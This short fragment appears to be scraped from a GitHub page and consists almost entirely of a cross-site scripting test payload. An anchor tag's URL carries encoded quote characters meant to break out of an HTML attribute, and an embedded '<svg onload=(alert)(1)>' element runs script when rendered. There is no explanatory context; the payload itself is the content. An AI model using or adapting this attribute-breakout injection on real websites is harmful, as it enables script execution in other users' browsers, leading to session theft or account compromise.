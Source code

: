 <a href='https://raw.githubusercontent.com/smartaptlimited/new/main/bbb%22class%3D%22gfm%22a%3D%27.jpg'>
' data-design="1" data-issue="1" data-reference-type="design" data-original='
  <svg onload=(alert)(1)>
'
</a>
